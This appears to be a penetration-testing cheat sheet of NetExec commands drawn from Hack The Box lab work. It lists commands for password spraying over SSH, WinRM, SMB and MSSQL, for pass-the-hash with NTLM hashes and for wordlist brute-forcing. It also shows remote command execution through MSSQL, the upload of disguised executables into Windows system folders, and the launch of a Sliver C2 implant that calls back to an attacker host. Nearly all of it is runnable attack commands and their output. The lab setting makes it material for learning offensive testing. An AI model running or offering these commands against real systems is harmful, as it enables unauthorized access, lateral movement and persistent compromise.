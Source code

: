 # NetExec

### SSH

* attempt ssh authentication to multiple hosts with one set of credentials&#x20;

```
./nxc ssh targets.txt -u james -p password123
./nxc ssh targets.txt -u balthazar -p 'password123'
./nxc ssh targets.txt -u root -p asdfghjkl
```

* attempt ssh auth to any host in a subnet with one set of credentials&#x20;

```
./nxc ssh 172.16.1.0/24 -u james -p password123
```

### WINRM

* attempt winrm authentication to multiple hosts with one set of credentials&#x20;

```
./nxc winrm targets.txt -u balthazar -p 'abc123!!!'
# domain authentication
./nxc winrm targets.txt -u 'HTB.local\balthazar' -p 'abc123!!!' 
./nxc winrm targets.txt -u 'HTB.local\james' -p password123
```

* attempt winrm authentication to a domain with a username and hash

```
./nxc winrm targets.txt -d HTB.local -u blake -H 12f18eteb6f8187fa52f3f729896bbb7
./nxc winrm targets.txt -u Administrator -H b99ed3c3d34c4576bcd33c76420be934
```

* winrm with a single username and a password wordlist

```
./nxc winrm 172.16.1.101 -u dan.hard -p 172.16.1.101/passwordlist.txt 
```

### SMB

* attempt smb authentication to multiple hosts with one set of credentials&#x20;

```
./nxc smb targets.txt -u 'HTB.local\james' -p password123
```

* attempt ssh authentication with a keyfile instead of a password

```
./nxc ssh 172.16.1.0/24 -u root --key-file ./10.10.110.100/ssh/id_rsa -p ''
```

* attempt smb auth to any host in a subnet with anonymous logon&#x20;

```
./nxc smb 172.16.1.0/24 -u anonymous -p ''
```

* smb authentication to a domain with a specific username and attempt a password wordlist

```
./nxc smb 172.16.1.13 -d DANTE.local -u 'gerald' -p /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 
```

### MSSQL&#x20;

* Access MSSQL and run a command with a password&#x20;

```
./nxc mssql 172.16.1.5 -u sophie -p thisisagoodpassword-X whoami --local-auth
MSSQL       172.16.1.5      1433   DANTE-SQL01      [*] Windows 10.0 Build 14393 (name:DANTE-SQL01) (domain:DANTE-SQL01)
MSSQL       172.16.1.5      1433   DANTE-SQL01      [+] sophie:thisisagoodpassword(Pwn3d!)
MSSQL       172.16.1.5      1433   DANTE-SQL01      [+] Executed command via mssqlexec
MSSQL       172.16.1.5      1433   DANTE-SQL01      nt service\mssql$sqlexpress
```

* kick off a sliver implant in the background&#x20;

```
./nxc mssql 172.16.1.5 -u sophie -p thisisagoodpassword-X 'cmd.exe /c start /b C:\Windows\System32\spool\drivers\color\security.exe' --local-auth
[*] Session b00d3dc6 dante-dc01 - 10.10.14.3:33086 (DANTE-SQL01) - windows/amd64 - Sun, 19 May 2024 13:48:24 EDT
```

### Put file

<pre><code><strong>./nxc smb 172.16.1.13 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:d0629f5539666892bf9ba9b34daa125c --put-file /opt/wmiexec2/RuntimeBroker.exe \\xampp\\apache\\bin\\iconv\\RuntimeBroker.exe
</strong><strong>
</strong>./nxc mssql 172.16.1.5 -u sophie -p thisisapassword --put-file /home/ubuntu/Documents/htb/dante/security.exe 'C:\Windows\System32\spool\drivers\color\security.exe' --local-auth

</code></pre>
